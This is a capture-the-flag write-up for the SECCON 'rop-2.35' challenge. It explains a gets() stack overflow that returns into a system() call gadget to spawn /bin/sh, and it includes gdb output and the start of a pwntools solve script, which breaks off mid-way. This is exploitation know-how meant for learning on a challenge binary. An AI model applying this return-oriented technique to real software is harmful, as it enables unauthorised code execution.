 
Set a breakpoint at `*main+39`. When we continue, it will not hit a breakpoint but output this.
```
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Attaching after Thread 0x7ffff7dc4740 (LWP 80425) vfork to child process 80428]
[New inferior 2 (process 80428)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 80425 after child exec]
[Inferior 1 (process 80425) detached]
process 80428 is executing new program: /usr/bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Error in re-setting breakpoint 1: No symbol "main" in current contex
```

That is because the system call is actually creating child process and for some reasons my gdb chooses to follow the child and abandon the parent ***(bruh)*** as default. Stop this dodgy behavior through `set follow-fork-mode parent`.

We can overflow the buffer to overwrite the address when main returns with gets. Do your cyclic stuff to find the offset (search if you don't know what this is).
The question now is to return where. There is no `put@plt` in this binary so leaking libc base address is out of the question. NX is enabled and the buffer length is 16 bytes so I ain't doing shellcode. Notice that when main returns, rax contains the address of the buffer.

`*RAX  0x7fffffffddd0 ◂— 'somerandomvalue'`

And `gets` write our payload into the buffer at rax. There is a `mov rdi, rax` just before system is called. So we will be returning there after overflowing. Now `rdi` contains the value of our payload and system will use the value in `rdi` register as its argument. We can now execute `system(payload)`! Or can we?

When you debug this, after sending the payload, it can be seen that system is loading our payload as its arguments. It actually works in my Kali environment but it gives me this when exploiting remotely:

**`sh: 1: V\x11@ not found`**

Well this challenge's binary is built with libc-2.35 (hint: in title). So use [pwninit](https://github.com/io12/pwninit) to patch the binary with the libc-2.35 extracted from Ubuntu 22.04 docker (it is provided in the Dockerfile). It behaves exactly the same as the remote binary. Debugging the binary, it turns out that even though GDB shows that system is loading our command, it is pushing a bunch registers which leads to junk in the system argument. We can get rid of them gradually with `ret` gadget so that system loads our `/bin/sh\0` payload and we are done.

```python
# solve.py
from pwn import *

libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")
context.arch = 'amd64'
pty = process.PTY
is_local = False

elf = ELF("/home/kali/CTF/SECCON/rop-2.35/chall_patched")
if len(sys.argv) == 1:
    is_local = True
    p = process(elf.path, stdin=pty, stdout=pty)

elif len(sys.argv) > 1:
    #  nc rop-2-35.seccon.games 9999
    is_remote = True
    if len(sys.argv) == 3:
```